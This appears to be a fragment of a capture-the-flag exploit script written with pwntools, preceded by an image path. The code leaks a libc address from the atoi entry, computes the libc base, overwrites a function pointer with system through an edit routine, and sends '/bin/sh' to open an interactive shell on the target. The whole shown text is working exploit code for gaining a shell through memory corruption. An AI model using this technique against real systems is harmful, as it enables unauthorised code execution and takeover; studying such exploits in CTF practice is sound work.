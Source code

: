    ```python
   #gdb.attach(r)
   r.recvuntil("0. ")
   r.recvuntil("1. ")
   libc.address = u64(r.recvuntil("\x0a", drop = True).ljust(8, '\x00')) - libc.sym["atoi"]
   #get shell
   edit(1, p64(libc.sym['system']))
   r.sendlineafter("choice: ", "/bin/sh")
   r.interactive()
   
   ```

   

